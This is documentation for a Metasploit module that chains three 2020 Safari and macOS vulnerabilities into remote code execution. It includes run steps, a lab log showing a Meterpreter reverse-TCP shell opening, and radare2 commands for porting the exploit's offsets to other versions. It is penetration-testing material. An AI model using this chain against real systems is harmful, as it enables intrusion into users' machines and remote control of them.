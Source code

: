 ## Vulnerable Application

This module exploits an incorrect side-effect modeling of the 'in' operator.
The DFG compiler assumes that the 'in' operator is side-effect free, however
the `<embed>` element with the PDF plugin provides a callback that can trigger
side-effects leading to type confusion (CVE-2020-9850).

The type confusion can be used as addrof and fakeobj primitives that then
lead to arbitrary read/write of memory. These primitives allow us to write
shellcode into a JIT region (RWX memory) containing the next stage of the
exploit.

The next stage uses CVE-2020-9856 to exploit a heap overflow in CVM Server,
and extracts a macOS application containing our payload into /var/db/CVMS.
The payload can then be opened with CVE-2020-9801, executing the payload
as a user but without sandbox restrictions.

## Verification Steps

1. Start `msfconsole`
1. `use exploit/osx/browser/safari_in_operator_side_effect`
1. `set LHOST <tab>`
1. `set SRVHOST <tab>`
1. `exploit`
1. Visit the URL on a vulnerable version of Safari

## Scenarios

### macOS Catalina 10.15.4

```
msf > use exploit/osx/browser/safari_in_operator_side_effect
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf exploit(osx/browser/safari_in_operator_side_effect) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(osx/browser/safari_in_operator_side_effect) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(osx/browser/safari_in_operator_side_effect) > set URIPATH /
URIPATH => /
msf exploit(osx/browser/safari_in_operator_side_effect) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(osx/browser/safari_in_operator_side_effect) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.4     safari_in_operator_side_effect - Request / from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1 Safari/605.1.15
[+] 192.168.56.4     safari_in_operator_side_effect - Safari version 13.1 appears to be vulnerable
[*] 192.168.56.4     safari_in_operator_side_effect - Request /LmcM.pdf from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1 Safari/605.1.15
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (799916 bytes) to 192.168.56.4
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.4:49409) at 2020-09-04 15:05:52 +0800
```

### Adding offsets for new versions

Although all macOS versions below 10.15.4 are vulnerable, some versions are not
supported. It may be possible to add support for a vulnerable version by adding
new offsets. The following commands can be used to gather some of these offsets:

```
brew install radare2
r2 /System/Library/Frameworks/JavaScriptCore.framework/Versions/Current/JavaScriptCore -2qQ -c 'af; s sym.imp.confstr; s'
r2 /usr/lib/system/libsystem_c.dylib -2qQ -c 'af; s sym._confstr; s'
r2 /usr/lib/system/libsystem_c.dylib -2qQ -c 'af; s sym.imp.dlsym; s'
r2 /usr/lib/system/libsystem_c.dylib -2qQ -c 'af; s sym.imp.dlopen; s'
```

You can then add the offsets to the module:
`modules/exploits/osx/browser/safari_proxy_object_type_confusion.rb`

You may also need to adjust the offsets here:

`external/source/exploits/CVE-2020-9850/payload/sbx/safari.mm:53`

Please don't forget to contribute the offsets back to the framework if you have
successfully tested them.

